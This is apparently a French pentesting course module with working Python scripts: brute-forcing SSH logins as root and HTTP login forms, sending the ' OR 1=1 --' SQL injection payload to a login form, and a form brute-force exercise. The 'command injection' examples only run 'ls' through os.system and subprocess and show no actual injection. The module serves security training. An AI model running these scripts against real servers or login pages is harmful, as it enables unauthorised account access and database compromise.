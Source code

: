 # Module 4 - Semaine 3

### 🟢 Module 4 : Attaques par force brute et exploitation des vulnérabilités

**Objectif du module :**  
Automatiser des attaques pour tester la robustesse des systèmes, avec une attention particulière sur l'attaque par force brute, l'exploitation des failles de type SQL Injection (SQLi), et les tests d'injection de commandes.

---

### **1. Attaque par force brute avec `requests` et `paramiko`**

Les attaques par **force brute** consistent à essayer systématiquement toutes les combinaisons possibles de mots de passe jusqu'à ce que le bon soit trouvé. Ce type d'attaque peut cibler des services comme **SSH**, **FTP**, ou des **formulaires de connexion HTTP**.

#### **Notions à maîtriser :**
- **Force brute sur les connexions SSH avec `paramiko`** : Permet de se connecter à un serveur distant via SSH et de tester des mots de passe.
- **Force brute sur les formulaires de connexion HTTP avec `requests`** : Permet d'envoyer des requêtes HTTP avec différentes combinaisons de noms d'utilisateur et mots de passe pour tester la sécurité des formulaires de connexion.

#### **Exemples pratiques :**

- **Attaque par force brute sur un serveur SSH avec `paramiko` :**
    ```python
    import paramiko

    def brute_force_ssh(host, username, password_list):
        for password in password_list:
            try:
                ssh = paramiko.SSHClient()
                ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
                ssh.connect(host, username=username, password=password)
                print(f"Password found: {password}")
                ssh.close()
                break
            except paramiko.AuthenticationException:
                print(f"Failed with password: {password}")

    host = "192.168.1.100"
    username = "root"
    password_list = ["12345", "password", "admin", "toor"]
    brute_force_ssh(host, username, password_list)
    ```
    Ce script tente de se connecter à un serveur SSH en utilisant différents mots de passe.

- **Attaque par force brute sur un formulaire HTTP avec `requests` :**
    ```python
    import requests

    def brute_force_http(url, username, password_list):
        for password in password_list:
            payload = {'username': username, 'password': password}
            response = requests.post(url, data=payload)
            if "Login successful" in response.text:
                print(f"Password found: {password}")
                break
            else:
                print(f"Failed with password: {password}")

    url = "http://example.com/login"
    username = "admin"
    password_list = ["12345", "password", "admin", "toor"]
    brute_force_http(url, username, password_list)
    ```
    Ce script teste un formulaire de connexion HTTP avec différentes combinaisons de mots de passe.

---

### **2. Exploitation des failles SQL Injection (SQLi)**

Les failles de type **SQL Injection** (SQLi) permettent à un attaquant d'injecter des commandes SQL malveillantes dans un formulaire ou une requête SQL, compromettant ainsi la base de données d'un site Web.

#### **Notions à maîtriser :**
- **SQLi sur des requêtes mal protégées** : Permet d'injecter des requêtes SQL malveillantes dans un formulaire.
- **Utilisation de `sqlite3` et `requests` pour exploiter les SQLi** : Permet d'exécuter des requêtes malveillantes contre une base de données via un formulaire Web.

#### **Exemples pratiques :**

- **Exploitation d'une faille SQLi dans un formulaire de connexion (avec `requests`)** :
    ```python
    import requests

    def exploit_sqli(url):
        payload = {"username": "' OR 1=1 --", "password": "' OR 1=1 --"}
        response = requests.post(url, data=payload)
        if "Welcome" in response.text:
            print("SQL Injection successful!")
        else:
            print("SQL Injection failed.")

    url = "http://example.com/login"
    exploit_sqli(url)
    ```
    Ce script envoie une injection SQL dans le formulaire de connexion et tente de se connecter sans avoir à entrer de véritable mot de passe, en utilisant la condition `1=1` (qui est toujours vraie).

- **SQLi avec `sqlite3` pour interagir directement avec une base de données SQLite** :
    ```python
    import sqlite3

    def exploit_sqlite(db_file):
        conn = sqlite3.connect(db_file)
        cursor = conn.cursor()
        cursor.execute("SELECT * FROM users WHERE username='' OR 1=1 --' AND password=''")
        rows = cursor.fetchall()
        for row in rows:
            print(row)
        conn.close()

    db_file = "users.db"
    exploit_sqlite(db_file)
    ```
    Ce script montre comment exploiter une faille SQLi pour obtenir toutes les lignes de la table `users` dans une base de données SQLite.

---

### **3. Test d'injection de commandes avec `os.system` et `subprocess`**

Les injections de commandes permettent à un attaquant d’exécuter des commandes systèmes via des formulaires ou des entrées utilisateur mal sécurisées.

#### **Notions à maîtriser :**
- **Injection de commandes avec `os.system`** : Permet d’exécuter une commande système via Python.
- **Injection de commandes avec `subprocess`** : Offre un contrôle plus puissant et flexible sur l'exécution de commandes systèmes en Python.

#### **Exemples pratiques :**

- **Injection de commandes avec `os.system` :**
    ```python
    import os

    def command_injection(command):
        os.system(command)

    command = "ls"  # Liste les fichiers dans le répertoire courant
    command_injection(command)
    ```
    Ce script exécute une commande système (ici, `ls`) via `os.system`.

- **Injection de commandes avec `subprocess` :**
    ```python
    import subprocess

    def command_injection_subprocess(command):
        result = subprocess.run(command, shell=True, capture_output=True, text=True)
        print(result.stdout)

    command = "ls"
    command_injection_subprocess(command)
    ```
    Ce script utilise `subprocess.run()` pour exécuter une commande système et capturer sa sortie.

---

### **4. Exercice : Créer un script qui teste la robustesse d’un formulaire de connexion contre une attaque par force brute**

#### **Instructions de l'exercice :**
1. **Analysez un formulaire de connexion Web** (HTTP) cible. Il s'agit généralement d'un formulaire avec un champ `username` et un champ `password`.
2. **Créez une liste de mots de passe communs** (ex. : "12345", "password", "admin", etc.) pour tester différentes combinaisons.
3. **Développez un script qui soumet ces combinaisons** de noms d'utilisateur et mots de passe au formulaire de connexion à l'aide de la bibliothèque `requests`.
4. **Vérifiez la réponse** pour savoir si la connexion a réussi (en analysant le texte retourné ou les codes de statut HTTP).
5. **Affichez un message** lorsque le mot de passe correct est trouvé.

#### **Exemple de structure du code :**
```python
import requests

def brute_force_form(url, username, password_list):
    for password in password_list:
        payload = {'username': username, 'password': password}
        response = requests.post(url, data=payload)
        if "Welcome" in response.text:  # Condition à adapter en fonction de la page de connexion
            print(f"Password found: {password}")
            break
        else:
            print(f"Failed with password: {password}")

url = "http://example.com/login"
username = "admin"
password_list = ["12345", "password", "admin", "toor"]
brute_force_form(url, username, password_list)
```

---

### **Conclusion du Module 4 :**

À la fin de ce module, vous devriez être capable de :
- Automatiser des attaques par force brute pour tester la robustesse des services d'authentification (SSH, FTP, HTTP).
- Exploiter des failles de type SQL Injection pour accéder à des bases de données non sécurisées.
- Tester des injections de commandes pour compromettre un système via des interfaces non sécurisées.

Ces compétences vous préparent à aborder le **Module 5** sur la post-exploitation et l’élévation de privilèges.